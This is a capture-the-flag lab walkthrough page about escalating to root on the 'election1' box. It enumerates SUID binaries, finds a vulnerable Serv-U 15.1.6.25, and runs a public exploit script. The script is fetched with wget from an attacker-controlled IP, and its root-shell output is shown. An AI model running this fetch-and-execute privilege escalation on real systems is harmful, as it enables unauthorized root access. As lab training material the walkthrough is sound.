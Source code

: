 ```yaml
---
layout: default
title: Serv-U
parent: SUID
nav_order: 5
---
```


# Serv-U

---

## SUID Permissions

```bash
love@election:~$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

## Exploit Serv-U Privesc Exploit

We locate the version of the Serv-U service as 15.1.6.25

![version](../../../assets/images/ctfs/proving_grounds/election1/version.png)

Checking searchsploit, there is a privesc shell script for Serv-U version under 15.1.

![searchsploit](../../../assets/images/ctfs/proving_grounds/election1/searchsploit.png)

Move the exploit to the target

```bash
love@election:/tmp$ wget http://192.168.45.217:8000/47173.sh
--2023-11-11 09:38:30--  http://192.168.45.217:8000/47173.sh
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1163 (1.1K) [text/x-sh]
Saving to: ‘47173.sh’

47173.sh            100%[===================>]   1.14K  --.-KB/s    in 0s

2023-11-11 09:38:30 (89.3 MB/s) - ‘47173.sh’ saved [1163/1163]

love@election:/tmp$ chmod +x 47173.sh
love@election:/tmp$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Nov 11 09:38 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
sh-4.4# whoami
root

```
